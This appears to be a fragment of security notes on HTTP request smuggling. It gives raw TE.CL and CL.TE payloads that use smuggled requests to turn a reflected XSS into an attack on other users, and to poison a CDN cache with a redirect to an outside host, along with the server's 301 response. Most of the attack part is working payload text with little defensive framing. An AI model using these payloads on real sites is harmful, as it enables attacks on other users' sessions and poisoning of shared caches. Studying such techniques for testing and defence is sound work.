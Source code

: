 
#### Upgrading XSS (Type 2)

if we found a reflective XSS in a site we can leverage that to poison any user, who's request got appended with our smuggled request

TE.CL
```http
POST / HTTP/1.1  
Host: saas-app.com  
Content-Length: 4  
Transfer-Encoding : chunked  
  
10  
=x&cr={creative}&x=  
66  
POST /index.php HTTP/1.1  
Host: saas-app.com  
Content-Length: 200  
  
SAML=a"><script>alert(1)</script>
0
POST / HTTP/1.1  
Host: saas-app.com  
Cookie: …
```


#### Open Redirect (Type 2)

Similar to xss, but redirecting user to a malicious site


### Web cache poisoning (Type 1)

- Certain web servers like IIS and apache will return redirect request if a folder is requested without a slash at the end. if we able to smuggle a request with a malicious host header and the next request requested contains xyz.js the cdn will try to cache the 301 redirect to malicious user site. Leads to the poisoning of the entire cache. (Type 1)

CL.TE

```http
POST /assets/libs/random.js HTTP/1.1  
Host: redacted  
Content-Length: 57  
Transfer-Encoding: chunked  
  
0  
  
POST /assets HTTP/1.1  
Host: burpcollaborator.net  
X: XGET /assets/libs/xyz.js HTTP/1.1
```

```
HTTP/1.1 301 Moved Permanently  
Location: https://burpcollaborator.net/assets/
```
